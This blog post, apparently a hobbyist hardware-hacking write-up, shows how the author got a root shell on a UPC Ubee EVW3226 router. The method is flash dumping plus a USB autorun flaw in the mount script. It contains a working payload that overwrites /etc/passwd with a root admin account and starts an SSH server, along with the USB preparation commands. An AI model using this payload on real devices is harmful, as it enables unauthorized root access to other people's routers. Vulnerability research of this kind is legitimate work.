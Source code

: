 +++
Description = "UPC Ubee EVW3226 Fail"
title = "UPC Ubee EVW3226 Fail"
date = "2016-01-17T12:00:00+01:00"
metakeys = ["Ubee EVW3226", "UPC", "root shell", "hacking"]

+++

Inspired by [Blasty](https://twitter.com/bl4sty) and his [UPC Wifi key generator](https://haxx.in/upc-wifi/) I decided to take a look at my UPC router too. It's a **Ubee EVW3226** with a custom firmware by UPC providing a modified web interface and a lot of other stuff.

First I tried to identify some debug pins on the board and found multiple possible UART connectors. I connected my [Buspirate](https://www.sparkfun.com/products/9544) to the first UART and got a login shell protected by a password. I tried some default passwords but was not able to get in so I needed to find another way. According to [another blog post](https://www.freeture.ch/?p=766) I found there is also a second UART connector with no password but this one was not working on my device.

So I took a deeper look at the chips on the board and identified two flash chips: *Spansion FL128PIF*. By looking at the [datasheet](http://www.spansion.com/Support/Datasheets/S25FL128P_00.pdf) I discovered there are some SPI pins on the chip to dump it's content (or write to it). So I attached a SOIC test clip on top of the flash chip and connected my [GoodFET](http://goodfet.sourceforge.net/) to it. Using the test clip is a good alternative because there is no need to desolder any chips. I was able to dump the whole 16MB memory of each chip using this method with `spiflash dump`. The address ranges to dump can be taken from the datasheet too.

The next thing to do was to extract the content of the dumped images. By using the latest development version of [binwalk](https://github.com/devttys0/binwalk) I was able to extract the file system contents of both chips. This dump only contains the firmware with no dynamic content from UPC so far so the running config is still missing.

After peeking around some binaries with IDA I found the following code in *aimDaemon*:

[![Extract Label](/img/ubee/extract_label_thumb.png)](/img/ubee/extract_label.png)

[![Extract Label](/img/ubee/check_label_thumb.png)](/img/ubee/check_label.png)

[![Extract Label](/img/ubee/execute_shell_thumb.png)](/img/ubee/execute_shell.png)

The snippets show the relevant code sections: The binary extracts the label of an external attached USB device and if it matches `EVW3226` it executes `/var/tmp/mount-usb.sh` with `go` as a first parameter.

`mount_usb.sh`:
```bash
#!/bin/bash
if [ $1 == "go" ]; then
  dev_path=$(blkid /dev/sd |cut -c 1-9)
  eval $(blkid /dev/sd |cut -d " " -f 2)
  eval $(blkid /dev/sd |cut -d " " -f 3)
  eval $(blkid /dev/sd |cut -d " " -f 4)
  echo "dev_path=\"$dev_path\" LABEL=\"$LABEL\" UUID=\"$UUID\" TYPE=\"$TYPE\"" >> /tmp/mountlist

  umount_folder=$(mount | grep "/var/tmp" | awk '{print $3}')
  for curr_folder in $umount_folder ; do
      if [ -n "$curr_folder"]; then
  		umount -l $curr_folder
          rm -fr $curr_folder
  	  fi
  done

  for curr_folder in $UUID ; do
    mkdir /var/tmp/media/$curr_folder -p
    if [ "$TYPE" == "ntfs" ]; then
      	echo "ntfs-3g "$dev_path" /var/tmp/media/"$curr_folder
      	ntfs-3g $dev_path /var/tmp/media/$curr_folder
    else
      	echo "mount "$dev_path" /var/tmp/media/"$curr_folder
      	mount $dev_path /var/tmp/media/$curr_folder
    fi
    if test -f /var/tmp/media/$curr_folder/.auto
	then
	    rm -fr /var/tmp/disk
	    cd /var/tmp
	    ln -s /var/tmp/media/$curr_folder disk
	   	chmod +x /var/tmp/media/$curr_folder/.auto
	   	sh /var/tmp/media/$curr_folder/.auto
	fi
    done
    if [ $2 == "1" ]; then
    	killall minidlna
    	/fss/fss2/sbin/minidlna -R -f /var/tmp/minidlna.conf
    fi
else
echo $1 ... >> /var/tmp/.usbadd
fi
```

As you may see this script mounts the usb stick and checks if the stick has a `.auto` file present. If the file exists a symbolic link to `/var/tmp/disk` is created and the `.auto` file is executed with `sh`.

So by creating an USB stick with the correct label and this autorun file we are able to execute any commands we like on the router.

The device is capable of running in router or in bridge mode. It looks like there is some check in place to only execute the script when running in `router` mode so be sure to switch to this mode if you want to try it on your own.

So lets first prepare our USB stick:

```bash
umount /dev/sdb1
fdisk /dev/sdb # clear partition table and create a new primary partition
mkfs.vfat /dev/sdb1
mlabel -i /dev/sdb1 ::EVW3226
```

Let's try to start a telnet server on the device by putting the following in the `.auto` file:

```bash
telnetd &
```

After plugging the stick in and waiting a few seconds I was able to connect via telnet. Unfortunately it seems some process is killing `telnetd` on a regular basis so it's no stable way to get access to the device.

Luckily there is also dropbear present so we can start a ssh server. The filesystem is missing the required hostkeys so I recreated them on a Ubuntu VM on the USB stick by

```bash
dropbearkey -t rsa -f /media/firefart/EVW3226/dropbear_rsa_host_key
```

As I was not able to crack the password hashes in a reasonable time we also need to add our own user. I did this by just overwriting `/etc/passwd` with an `admin:admin` hash.

So the final `.auto` file looks like

```bash
#!/bin/bash
echo admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh > /etc/passwd
dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
```

After plugging in the USB-Stick and waiting a few seconds we can connect to the device using ssh and login using the password `admin`.

```bash
ssh admin@192.168.0.1
```

The next steps are to peek around the device. There are already a lot of passwords and private keys lying around in the firmware image.

There was also a great talk on 32C3 - [Beyond Your Cable Modem](https://media.ccc.de/v/32c3-7133-beyond_your_cable_modem) which gives some good ideas what to check next.
